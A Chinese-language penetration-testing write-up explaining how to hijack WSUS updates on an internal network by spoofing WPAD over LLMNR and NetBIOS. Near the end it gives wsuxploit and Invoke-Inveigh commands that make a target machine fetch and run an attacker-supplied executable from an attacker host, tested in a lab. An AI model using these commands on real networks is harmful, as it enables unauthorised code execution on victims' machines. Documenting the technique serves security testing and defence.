 #### 0x01前置

拥有WSUS服务器权限，我们可以以补丁的形式给内网的机器下发psexec.exe并执行命令，参考http://greatagain.dbappsecurity.com.cn/#/book?id=1730&type_id=1。在没有权限的情况下，可以通过中间人攻击劫持目标机器和WSUS的通信，更改WSUS返回给目标机器的返回包中的补丁下载链接，使目标机器下载我们的可执行文件安装执行。

#### 0x02 知识补充

##### WAPD

网络代理自动发现协议（Web Proxy Autodiscovery Protocol）,通过让浏览器自动发现代理服务器，定位代理配置文件wpad.dat，下载编译并运行，最终自动使用代理访问网络。wpad.dat文件示例

```javascript
//
function FindProxyForURL(url, host) {
      if (shExpMatch(host, "*.google.com")||shExpMatch(host, "google.com")) 	{return "PROXY 192.168.50.5:8118; DIRECT";}
      return "DIRECT";
   }
```

如图

![](./media2/1.png)

用户PC在设置了自动发现代理服务器时，在访问网络之前，首先会向DNS/DHCP服务器请求WPAD主机的地址，再从WPAD主机80端口下载wpad.dat文件编译运行，之后使用wpad.dat设置的代理服务器和代理规则通过代理服务器链接网络。在DHCP和DNS不可用的情况下，则用户PC发起名称解析(域内：wpad.domain.com)。名称解析按以下步骤进行：

```
1.检查文件系统中的主机文件
    在其配置文件C\Windows\System32\drivers\etc中，查询要访问的系统信息，检查要访问的设备是否时本身。
2.检查本地DNS缓存
		检查缓存。如果高速缓存中存在要访问的设备的信息，则使用此信息。
3.发送查询到DNS
		如果计算机从配置文件中找不到与要访问的设备有关的任何信息，它将向本地网络上的DNS服务器发送查询。
4.发送LLMNR查询
		LLMNR是当DNS服务器名称解析失败时处理的协议。
5.发送NetBIOS-NS查询
		发送NetBIOS查询
```



#### 0x03 WSUS交互过程

在设置了WSUS服务器的内网，其他机器更新时会通过http协议和wsus服务进行交互，确定需要安装哪些补丁，以及补丁的下载地址。交互过程：

1.客户端发送本地已安装补丁ID

![](./media2/3.jpg)

服务端返回可更新补丁，图示为补丁ID

![](./media2/4.jpg)

2.客户端发送本机硬件ID列表

![](./media2/5.jpg)

服务端返回是否有可用更新

![](./media2/6.jpg)

3.请求可用更新地址及服务端返回

![](./media2/7.jpg)

返回包里包含了可用更新补丁的hash、补丁安装类型、补丁下载地址。通过burp可以更为直观的看见返回包内容

![](./media2/8.jpg)

安装类型CommandLineInstall可以为安装程序提供参数。

#### 0x04 劫持

综上，在配置了自动代理发现的网络环境中，可以通过劫持wpad,使得目标使用我们的代理服务器进行系统更新。在请求更新返回包中，修改补丁下载地址，使目标机器下载我们的可执行文件(微软签名，如：psexec)执行。

相关工具[Invoke-Inveigh](https://github.com/EmpireProject/Empire/blob/master/data/module_source/collection/Invoke-Inveigh.ps1)、[wsuxploit](https://github.com/pimps/wsuxploit)(需要安装twisted18.9.0，这个模块是个天坑)、

在攻击机(192.168.0.202)上执行

`python wsuxploit.py psexec` //默认监听8080端口，可更改payload.ini自定义payload

`Invoke-Inveigh -IP 192.168.0.202 -NBNS Y -LLMNR Y -SMB N -StatusOutput Y -HTTP Y SpooferHostsReply-Default All -WPADAuth Anonymous -WPADIP 192.168.0.202 -WPADPort 8080 -Tool 2`

其中SpooferHostsReply-Default可指定为目标IP，`-WPADIP 192.168.0.202 -WPADPort 8080`指定wsuxploit的IP和端口。当目标机器(192.168.0.232)更新时，就能修改交互

![](./media2/9.jpg)



![](./media2/10.jpg)

(192.168.0.101为WSUS服务器)

在客户端win7、WSUS服务端为2008r2上测试成功。

